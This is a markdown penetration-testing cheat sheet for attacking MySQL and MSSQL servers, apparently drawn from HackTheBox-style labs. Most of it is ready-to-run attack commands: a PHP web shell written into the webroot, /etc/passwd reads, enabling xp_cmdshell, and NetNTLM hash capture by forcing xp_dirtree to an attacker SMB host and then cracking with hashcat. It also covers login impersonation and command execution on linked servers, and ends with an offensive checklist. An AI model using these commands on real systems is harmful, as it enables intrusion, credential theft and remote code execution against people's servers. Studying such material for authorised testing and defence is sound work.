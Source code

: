 # SQL

## Quick Connect Examples
```bash
# MySQL
mysql -u julio -p'Password123' -h 10.129.20.13

# MSSQL from Windows
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!'

# FreeTDS / sqsh (Linux)
sqsh -S 10.129.203.7 -U juli0 -P 'MyPassword!'

# Impacket mssqlclient
mssqlclient.py julio@10.129.203.7 -p 1433
```

---

## Common Enumeration Queries
```sql
# MySQL
SHOW DATABASES;
USE htbusers;
SHOW TABLES;
SELECT * FROM users;

# MSSQL
-- List databases (MSSQL)
SELECT name FROM master.dbo.sysdatabases;
-- Or
SELECT database_id, name FROM sys.databases;

-- Show tables in current DB
SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE';

-- Dump table
SELECT * FROM dbo.users; -- watch out for large tables
```

Notes: always set a row limit when exploring unknown tables (TOP N or LIMIT) to avoid huge outputs.

---

## Read Local Files
```sql
-- MySQL: requires secure_file_priv to allow OUTFILE or LOAD_FILE
SELECT LOAD_FILE('/etc/passwd');
SELECT '<?php echo shell_exec($_GET["c"]);?>' INTO OUTFILE '/var/www/html/webshell.php';

-- MSSQL using OPENROWSET for file read (if enabled)
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents;
```
Notes: READ access to filesystem depends on DB service account privileges and server configuration.

---

## Command Execution
```sql
# MySQL
show variables like "secure_file_priv"; # Check if empty
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

# MSSQL
-- Basic xp_cmdshell usage (if enabled)
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```
Caveat: enabling xp_cmdshell requires appropriate permission and is noisy — check logs and use only when permitted by scope.

---

## Capture Service Authentication (NTLM hashes)
- Use `xp_dirtree` / `xp_subdirs` to force MSSQL to authenticate to your SMB server and capture NetNTLM challenge/response.

Start [Responder](https://github.com/lgandx/Responder) or [impacket-smbserver](https://github.com/SecureAuthCorp/impacket)

```bash
sudo responder -I tun0

sudo impacket-smbserver share ./ -smb2support

# Crack it
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

```mssql
# XP_DIRTREE Hash Stealing
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO

#XP_SUBDIRS Hash Stealing
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

Run `Responder` or `impacket-smbserver` to collect the hashes, then crack with `hashcat -m 5600`.

---

## Impersonation & Privilege Escalation (MSSQL)
- Check who can be impersonated:
```sql
SELECT DISTINCT b.name
FROM sys.server_permissions a
JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';
```
- Impersonate a login (if allowed):
```sql
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER; -- verify
REVERT; -- drop impersonation
```
- If linked servers exist, you can execute commands on the linked instance using `EXECUTE('...') AT [linked.server]` and enable `xp_cmdshell` there to run system commands remotely.

Example flow used in boxes:
```sql
-- Find linked servers
SELECT srvname, isremote FROM sysservers; -- isremote 1 = remote

-- Run a remote command via linked server
EXECUTE AS LOGIN = 'john';
EXECUTE('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
EXECUTE('xp_cmdshell ''type C:\\Users\\Administrator\\Desktop\\flag.txt''') AT [LOCAL.TEST.LINKED.SRV];
REVERT;
```

### Example - Impersonation

```sql
# Get users
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
GO

# Find remote server
SELECT srvname, isremote FROM sysservers
GO

# Impersonat
EXECUTE AS LOGIN = 'john'
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
GO

# allow xp_cmdshell
EXECUTE('EXECUTE sp_configure ''show advanced options'', 1;RECONFIGURE;EXECUTE sp_configure ''xp_cmdshell'', 1;RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]

# Grab flag
EXECUTE('xp_cmdshell ''more c:\users\administrator\desktop\flag.txt''') AT [LOCAL.TEST.LINKED.SRV]
```

---

## Practical Pentest Tips
- Always enumerate server-level permissions and linked servers early — they often lead to escalation paths.
- Use `TOP 100` / `LIMIT` when querying unknown tables.
- Be cautious with `OUTFILE` and `xp_cmdshell`; they are effective but noisy.
- If `xp_cmdshell` is not available, look for CLR assemblies, SQL Agent jobs, or backup file locations to pivot.
- Capture any DB service account context (e.g., NT SERVICE\MSSQLSERVER) and understand filesystem permissions associated with that account.

---

## Offensive Checklist
- [ ] Enumerate databases and tables (limit rows)
- [ ] Search for credential tables, config files, backup paths
- [ ] Attempt file reads (OPENROWSET / LOAD_FILE)
- [ ] Force authentication to attacker SMB to capture NetNTLM
- [ ] Look for IMPERSONATE permissions and linked servers
- [ ] Pivot to linked servers and attempt xp_cmdshell / file reads

---

## Vulnerabilities / Notes
- Common misconfigurations: enabled xp_cmdshell, writable webroot via OUTFILE, excessive IMPERSONATE grants, open linked servers.
- Defensive note: DB servers with high privileges and linked servers should be monitored for sp_configure and xp_cmdshell usage.
